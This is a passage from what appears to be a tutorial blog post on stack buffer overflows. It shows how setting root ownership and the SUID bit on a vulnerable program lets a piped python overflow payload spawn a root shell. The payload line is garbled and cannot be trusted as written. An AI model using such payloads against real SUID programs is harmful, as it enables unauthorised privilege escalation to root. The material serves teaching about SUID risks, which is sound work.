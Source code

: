 Now let’s say that example1 has SUID rights (it gives the permissions to the user to run the executable with the owner’s rights) and that the owner is root. This scenario can be created with the following commands:  
```
 # chown root:root example1
# chmod 4755 example1
# exit
$
```
Let’s try again the same exploit of before and let’s see what happens:  
```
 $ echo $$
23315
$ ( python -c 'import sys; sys.stdout.write("A"*14d5\xff\xff")'; cat ) | ./example1

echo $$
27609
whoami
root
```
We gained a root shell. That’s why SUID rights must be treated with extreme care, as, if there are vulnerabilities in the code, these might allow the attacker to execute shellcode with root privileges.  

Writing this article was extremely funny, as I had to face some issues I never thought to (i.e. the magical SUB instruction at the beginning of the shell spawning shellcode and the stdin stuff after the shellcode execution). I think that in these things **fun is everything**, and most of the times **losing is fun**.  